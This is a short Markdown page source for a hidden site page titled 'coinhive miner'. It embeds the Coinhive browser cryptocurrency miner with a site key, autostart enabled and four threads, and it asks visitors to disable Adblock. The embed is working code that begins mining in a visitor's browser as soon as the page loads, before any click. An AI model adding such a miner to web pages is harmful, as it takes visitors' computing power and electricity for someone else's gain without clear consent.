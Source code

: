 title: coinhive miner
slug: mine
status: hidden

# coinhive.com miner

<div markdown=0>
<script>
if (miner) {
    miner.stop();
}
</script>
<script src="https://coinhive.com/lib/miner.min.js" async></script>
<div class="coinhive-miner" 
	style="width: 256px; height: 310px"
	data-key="Lk7qPo3PP9V82a7kXGOrpzUh5tyc9PrK"
	data-autostart="true"
	data-whitelabel="false"
	data-background="#000000"
	data-text="#eeeeee"
	data-action="#00ff00"
	data-graph="#555555"
	data-threads="4"
	data-throttle="0.1"
	data-start="Start Now!">
	<em>Please disable Adblock!</em>
</div>
</div>